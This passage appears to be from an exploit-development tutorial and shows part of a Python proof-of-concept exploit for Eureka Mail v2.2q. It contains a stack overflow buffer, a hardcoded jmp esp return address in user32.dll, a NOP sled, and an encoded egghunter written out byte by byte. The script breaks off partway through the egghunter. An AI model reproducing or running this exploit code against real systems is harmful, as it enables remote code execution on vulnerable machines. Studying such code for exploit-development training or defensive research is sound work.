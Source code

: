 Below is a proof of concept exploit for Eureka Mail v2.2q developed in Python. As you can see, we've plugged in our op codes generated by our encoder.

<b>custom_eureka_sploit.py</b>
```py
import socket
import threading

junk = "A"*709
ret = "\xaf\xbc\x47\x7e" # 7E47BCAF -- jmp esp from user32.dll
padding = "\x90"*1000

#m0m0 tag
egghunter = ""
#popad - make ESP point below the encoded hunter
egghunter += "\x61\x61\x61\x61\x61\x61\x61\x61"
#-----8 blocks encoded hunter---------------
#******BLOCK 0*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x2e\x5d\x55\x5d"
egghunter += "\x2d\x2e\x5d\x55\x5d"
egghunter += "\x2d\x2f\x5e\x55\x5d"
egghunter += "\x50"
#******BLOCK 1*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x70\x2d\x5c\x6f"
egghunter += "\x2d\x70\x2e\x5c\x70"
egghunter += "\x2d\x71\x2e\x5d\x70"
egghunter += "\x50"
#******BLOCK 2*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x31\x45\x26\x57"
egghunter += "\x2d\x31\x45\x27\x57"
egghunter += "\x2d\x31\x45\x27\x57"
egghunter += "\x50"
#******BLOCK 3*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x5b\x6c\x30\x45"
egghunter += "\x2d\x5b\x6d\x30\x45"
egghunter += "\x2d\x5b\x6d\x31\x45"
egghunter += "\x50"
#******BLOCK 4*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x41\x53\x37\x2e"
egghunter += "\x2d\x41\x53\x37\x2e"
egghunter += "\x2d\x42\x54\x37\x2f"
egghunter += "\x50"
#******BLOCK 5*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x54\x37\x66\x45"
egghunter += "\x2d\x55\x38\x66\x45"
egghunter += "\x2d\x55\x38\x66\x46"
egghunter += "\x50"
#******BLOCK 6*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x50\x3f\x39\x31"
egghunter += "\x2d\x50\x3f\x3a\x32"
```